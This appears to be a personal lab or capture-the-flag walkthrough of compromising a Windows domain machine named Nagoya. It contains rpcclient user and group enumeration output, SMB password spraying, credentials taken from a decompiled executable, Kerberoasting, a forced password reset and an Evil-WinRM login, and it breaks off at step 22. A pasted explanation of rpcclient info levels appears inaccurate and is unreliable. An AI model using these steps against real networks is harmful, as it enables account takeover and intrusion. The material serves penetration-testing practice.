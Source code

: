 
![image](https://github.com/user-attachments/assets/2e8337d8-f6cb-4c3a-8816-1129b8263f99)
![image](https://github.com/user-attachments/assets/e4dc7324-0148-41cc-8da8-bf5ca898b0fc)
![image](https://github.com/user-attachments/assets/7e4417b9-0c66-4c08-bf7a-fa4e23f12185)
![image](https://github.com/user-attachments/assets/8909ecd9-97bd-46d6-bab0-d6b0ae65b6da)
![image](https://github.com/user-attachments/assets/186c04c2-f5d7-4c7e-932c-161c77b7b966)
![image](https://github.com/user-attachments/assets/0657932d-f33f-48c9-80e6-c6920e0f8188)
![image](https://github.com/user-attachments/assets/b6bab0fe-71fb-46b2-913b-d5c049eb9a7d)
![image](https://github.com/user-attachments/assets/07737a64-d19f-47b4-8aa3-82809a097b65)
![image](https://github.com/user-attachments/assets/cec77848-63fa-4fb7-84cf-5bcebf20aa96)
![image](https://github.com/user-attachments/assets/0f1fece0-9a28-45d4-8cb2-b444e07041ec)
![image](https://github.com/user-attachments/assets/c7236729-5f98-4faf-89f0-acd63d52dcba)
![image](https://github.com/user-attachments/assets/9654e838-5759-44dc-b974-82b748215a10)
![image](https://github.com/user-attachments/assets/8aa3e6fa-5fd8-416d-80bf-56495445d6b0)
![image](https://github.com/user-attachments/assets/3ea5fbe1-8d05-4308-8c71-55858588a1f9)
![image](https://github.com/user-attachments/assets/c0904506-69f1-403e-9724-af34ea1dbb93)
![image](https://github.com/user-attachments/assets/88527838-2a47-4325-a151-128049d13370)
![image](https://github.com/user-attachments/assets/74f09e31-a604-4c95-8212-b7bd7d969920)
![image](https://github.com/user-attachments/assets/e2ee4dc3-1b0e-4b8a-8205-afad5e452f2a)
![image](https://github.com/user-attachments/assets/84e0b467-ad14-47e7-890c-63af9e5e3f9a)
![image](https://github.com/user-attachments/assets/8b50dfa9-6dff-4d10-ba2e-62a113e7fdac)
![image](https://github.com/user-attachments/assets/b896e409-9b12-4839-abec-18af7d05faac)
![image](https://github.com/user-attachments/assets/8d3db80e-1ec3-4124-be1f-fd7f137598a1)
![image](https://github.com/user-attachments/assets/f7ae538b-e3d7-4656-bd78-1d788d2f09d0)
![image](https://github.com/user-attachments/assets/a1e7d0d5-34de-4d5b-ad5f-9194a25317b3)
![image](https://github.com/user-attachments/assets/869f244f-5491-4cb2-8b6b-52a2602f91f5)
![image](https://github.com/user-attachments/assets/f4a2faa0-ce3a-4c5e-bfc9-a3237940d792)
![image](https://github.com/user-attachments/assets/d09bd766-06bb-43fb-bec1-2876b5b81fdb)
![image](https://github.com/user-attachments/assets/9f71f69b-c8cf-4a26-9e40-fec21b399b29)
![image](https://github.com/user-attachments/assets/0387330d-ec7d-4c89-9b92-a9d55d7fd28c)
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[svc_helpdesk] rid:[0x450]
user:[Matthew.Harrison] rid:[0x452]
user:[Emma.Miah] rid:[0x453]
user:[Rebecca.Bell] rid:[0x454]
user:[Scott.Gardner] rid:[0x455]
user:[Terry.Edwards] rid:[0x456]
user:[Holly.Matthews] rid:[0x457]
user:[Anne.Jenkins] rid:[0x458]
user:[Brett.Naylor] rid:[0x459]
user:[Melissa.Mitchell] rid:[0x45a]
user:[Craig.Carr] rid:[0x45b]
user:[Fiona.Clark] rid:[0x45c]
user:[Patrick.Martin] rid:[0x45d]
user:[Kate.Watson] rid:[0x45e]
user:[Kirsty.Norris] rid:[0x45f]
user:[Andrea.Hayes] rid:[0x460]
user:[Abigail.Hughes] rid:[0x461]
user:[Melanie.Watson] rid:[0x462]
user:[Frances.Ward] rid:[0x463]
user:[Sylvia.King] rid:[0x464]
user:[Wayne.Hartley] rid:[0x465]
user:[Iain.White] rid:[0x467]
user:[Joanna.Wood] rid:[0x468]
user:[Bethan.Webster] rid:[0x469]
user:[Elaine.Brady] rid:[0x46b]
user:[Christopher.Lewis] rid:[0x46c]
user:[Megan.Johnson] rid:[0x46d]
user:[Damien.Chapman] rid:[0x46e]
user:[Joanne.Lewis] rid:[0x46f]
user:[svc_mssql] rid:[0x470]
user:[svc_tpl] rid:[0x471]
user:[svc_web] rid:[0x472]
rpcclient $> queryusergroups 0x452
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x453
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x454
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x455
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x456
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x457
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x458
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x459
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x460
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x461
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x462
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x463
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x464
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x465
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x466
result was NT_STATUS_NO_SUCH_USER
rpcclient $> queryusergroups 0x467
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x468
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x469
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x46b
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46c
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x46d
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46e
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46f
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x470
        group rid:[0x201] attr:[0x7]
rpcclient $> queryusergroups 0x471
        group rid:[0x201] attr:[0x7]
rpcclient $> queryusergroups 0x472
        group rid:[0x201] attr:[0x7]
rpcclient $> 
```
![image](https://github.com/user-attachments/assets/7ba66983-72c6-42f7-adbc-1cc5d7c9f767)
![image](https://github.com/user-attachments/assets/16956a2e-f97a-47ae-9ef7-3f39dcb955d9)
![image](https://github.com/user-attachments/assets/b5d06cca-83ee-4650-b5a5-02f4f0492012)
![image](https://github.com/user-attachments/assets/0b28c01b-8d3f-4906-a19d-26408855c8d6)
![image](https://github.com/user-attachments/assets/8d914551-5f15-4147-9dbd-22513a77b6da)

Take a break.



1. website --> Team --> list of team members --> generate user list

2. brute force SMB (crackmapexec -u users.txt -p rockyou.txt) --> no valid user:password

3. enum4linux-ng --> no useful info

4. crackmapexec SMB again with -p 'nagoya', 'Nagoya', 'nagoya2023', 'Nagoya2023' (website built in 2023)

5. valid creds Andrea.Hayes:Nagoya2023

6. crackmapexec winrm --> fail, crackmapexec rdp --> error --> try nxc rdp --> valid

7. RDP with Andrea.Hayes:Nagoya2023 --> fail

8. smbclient --> get ResetPassword info (.exe and .exe.config)

9. cat ResetPassword.exe.config --> no useful info

10. strings ResetPassword.exe --> no useful info

11. check ResetPassword.exe with dnSpy.exe --> wine dnSpy.exe --> open ResetPassword.exe --> get username svc_helpdesk and password U299iYRmikYTHDbPbxPoYYfa2j4x4cdg

12. svc_helpdesk creds not get into machine

13. cannot find entry point --> try impacket-GetUserSPNs with Andrea.Hayes:Nagoya2023 --> get two usernames: svc_helpdesk and svc_mssql

14. get kerberoast and crack --> svc_mssql password is Service1

15. rpcclient with svc_helpdesk cred --> get domain users and domain groups

16. queryusergroups to check which groups each user is in --> user Christopher.Lewis (0x46c) in 3 groups (domain user, developer and employee groups), all others only in 1 or 2 groups

17.
```
In the rpcclient tool, the setuserinfo function is used to modify user account information on a remote Windows system. The level parameter in this context refers to the level of information detail that you want to modify or retrieve when working with user account data.
Commonly used levels for user account information include:

Level 0: Basic information, such as username and full name.

Level 1: Additional information, including home directory, script path, and profile path.

Level 2: Further information, like password age, privileges, and logon script.

Level 3: Detailed information, including all the above and group memberships.

Level 4: Even more detailed information, including all the above and security identifier (SID).

To set a user's password using the rpcclient tool, you would typically use setuserinfo2 function with a level of 23.

The level parameter corresponds to the level of user information that you're modifying, and for changing passwords, the relevant level is 23. Level 23 includes all the attributes from level 1 (which provides basic user information) and adds the ability to modify the user's password.

The setuserinfo function in rpcclient is typically used to modify user account information, but it might not directly support changing passwords. To change a user's password using rpcclient, the setuserinfo2 function with level 23 is the recommended approach.

The setuserinfo2 function with level 23 allows you to modify password-related information, including changing the user's password. Level 23 includes all the attributes from level 1 and provides the additional functionality to manage passwords.

While some versions of rpcclient might support changing passwords using setuserinfo with certain parameters, it's safer and more consistent to use setuserinfo2 with level 23 for password changes.
```
18. reset Christopher.Lewis password to Password123

19. Evil-WinRM into machine with Christopher.Lewis new password --> get local.txt flag

20. already get svc_mssql username and password from previous steps, directory svc_mssql under C:\Users\ but initial port scan no mssql port 1433 open

21. netstat -ano | findstr LISENTING --> check open ports --> port 1433 is listening

22. 
